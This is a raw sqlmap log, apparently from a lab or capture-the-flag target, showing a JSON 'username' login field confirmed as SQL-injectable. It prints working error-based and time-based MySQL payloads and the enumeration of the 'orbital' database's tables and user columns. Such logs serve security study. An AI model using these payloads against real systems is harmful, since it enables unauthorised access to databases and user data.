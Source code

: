 ```
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[19:26:15] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[19:26:16] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[19:26:16] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[19:26:16] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:26:26] [INFO] (custom) POST parameter 'JSON username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
[19:26:26] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:26:26] [INFO] testing 'MySQL UNION query (NULL) - 1 to 20 columns'
[19:26:26] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:26:27] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[19:26:27] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] n
n
[19:26:51] [WARNING] if UNION based SQL injection is not detected, please consider usage of option '--union-char' (e.g. '--union-char=1') 
[19:26:54] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] n
[19:27:02] [INFO] testing 'MySQL UNION query (random number) - 1 to 20 columns'
[19:27:06] [INFO] testing 'MySQL UNION query (NULL) - 21 to 40 columns'
[19:27:09] [INFO] testing 'MySQL UNION query (random number) - 21 to 40 columns'
[19:27:12] [INFO] testing 'MySQL UNION query (NULL) - 41 to 60 columns'
[19:27:15] [INFO] testing 'MySQL UNION query (random number) - 41 to 60 columns'
[19:27:18] [INFO] testing 'MySQL UNION query (NULL) - 61 to 80 columns'
[19:27:21] [INFO] testing 'MySQL UNION query (random number) - 61 to 80 columns'
[19:27:24] [INFO] testing 'MySQL UNION query (NULL) - 81 to 100 columns'
[19:27:27] [INFO] testing 'MySQL UNION query (random number) - 81 to 100 columns'
(custom) POST parameter 'JSON username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 1397 HTTP(s) requests:
---
Parameter: JSON username ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: {"username":"admin" AND (SELECT 2242 FROM(SELECT COUNT(*),CONCAT(0x71716a6a71,(SELECT (ELT(2242=2242,1))),0x71626b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- IPSK","password":"password"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"username":"admin" AND (SELECT 4429 FROM (SELECT(SLEEP(5)))Llei)-- Mhzj","password":"password"}
---
[19:27:44] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[19:27:44] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:27:44] [INFO] fetching current database
[19:27:45] [INFO] retrieved: 'orbital'
[19:27:45] [INFO] fetching tables for database: 'orbital'
[19:27:45] [INFO] retrieved: 'communication'
[19:27:45] [INFO] retrieved: 'users'
[19:27:45] [INFO] fetching columns for table 'users' in database 'orbital'
[19:27:45] [INFO] retrieved: 'id'
[19:27:46] [INFO] retrieved: 'int(11)'
[19:27:46] [INFO] retrieved: 'username'
[19:27:46] [INFO] retrieved: 'varchar(255)'
```